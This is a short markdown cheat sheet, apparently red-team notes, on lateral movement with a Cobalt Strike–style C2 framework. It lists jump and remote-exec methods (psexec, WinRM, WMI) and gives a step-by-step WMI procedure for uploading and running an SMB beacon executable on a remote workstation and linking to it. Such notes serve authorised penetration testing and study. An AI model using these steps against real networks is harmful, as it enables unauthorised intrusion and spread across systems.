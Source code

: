 # Lateral Movement
For lateral movement you can use `jump`, `remote-exec` and some of `Seatbelt's commands`.

Don't forget to test local admin access on a target `listing the C$ share` remotely!

## jump
  - The syntax is jump [method] [target] [listener]
  - Type `jump` to see a list of methods
  ```
  psexec            x86   Use a service to run a Service EXE artifact
  psexec64          x64   Use a service to run a Service EXE artifact
  psexec_psh        x86   Use a service to run a PowerShell one-liner
  winrm             x86   Run a PowerShell script via WinRM
  winrm64           x64   Run a PowerShell script via WinRM 
  ```

## remote-exec 
- The syntax is remote-exec [method] [target] [command]. 
- Type `remote-exec` to see a list of methods.
```
 psexec             Remote execute via Service Control Manager
 winrm              Remote execute via WinRM (PowerShell)
 wmi                Remote execute via WMI
```

## Windows Management Instrumentation (WMI)
  - Generate an x64 Windows EXE for the SMB listener
  - Upload it to the target by cd'ing to the desired path
  - Use the upload command.
  - Run ```remote-exec wmi workstation-1 C:\Windows\beacon-smb.exe``` i.e
  - Connect to the process using ```link workstation-1```
